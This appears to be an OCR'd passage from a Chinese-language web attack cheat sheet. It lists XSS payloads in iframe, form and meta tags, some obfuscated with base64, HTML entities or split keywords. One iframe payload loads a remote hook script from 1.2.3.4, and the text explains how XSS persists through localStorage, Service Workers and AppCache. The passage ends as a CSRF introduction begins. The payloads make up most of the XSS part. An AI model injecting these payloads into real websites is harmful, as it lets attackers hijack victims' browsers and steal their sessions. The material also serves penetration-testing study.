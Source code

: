 **iframe**

```
<iframe onload='
var sc = document.createElement("scr" + "ipt");
sc.type = "text/javascr" + "ipt";
sc.src = "http://1.2.3.4/js/hook.js";
document.body.appendChild(sc);
'
/>
```

```
• <iframe src=javascript:alert(1)></iframe>
• <iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>
• <iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+>
iframe>
• <iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>
• <iframe src=https://baidu.com width=1366 height=768></iframe>
• <iframe src=javascript:alert(1) width=1366 height=768></iframe
```

**form**

```
• <form action=javascript:alert(1)><input type=submit>
• <form><button formaction=javascript:alert(1)>M
• <form><input formaction=javascript:alert(1) type=submit value=M>
• <form><input formaction=javascript:alert(1) type=image value=M>
• <form><input formaction=javascript:alert(1) type=image src=1>
```

**meta**

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
```

**2.11 持久化**

**基于存储**
有时候网站会将信息存储在 Cookie 或 localStorage，而因为这些数据一般是网站主动存储的，很多时候没有对 Cookie 或 localStorage 中取出的数据做过滤，会直接将其取出并展示在页面中，甚至存了 JSON 格式的数据时，部分站点存在 eval(data) 之类的调用。因此当有一个 XSS 时，可以把 payload 写入其中，在对应条件下触发。
在一些条件下，这种利用方式可能因为一些特殊字符造成问题，可以使用 String.fromCharCode 来绕过。
**Service Worker**
Service Worker 可以拦截 http 请求，起到类似本地代理的作用，故可以使用 Service Worker Hook 一些请求，在请求中返回攻击代码，以实现持久化攻击的目的。
在 Chrome 中，可通过 chrome://inspect/#service-workers 来查看 Service Worker 的状态，并进行停止。
**AppCache**
在可控的网络环境下（公共 wif），可以使用 AppCache 机制，来强制存储一些 Payload，未清除的情况下，用户访问站点时对应的 payload 会一直存在。  

# 3.CSRF

**3.1 简介**

跨站请求伪造 (Cross-Site Request Forgery, CSRF)，也被称为 One Click Attack 或者 Session Riding ，通常缩写为 CSRF，是一种对网站的恶意利用。尽管听起来像 XSS，但它与 XSS 非常不同，XSS 利用站点内的信任用户，而 CSRF 则通过伪装来自受信任用户的请求来利用受信任的网站。
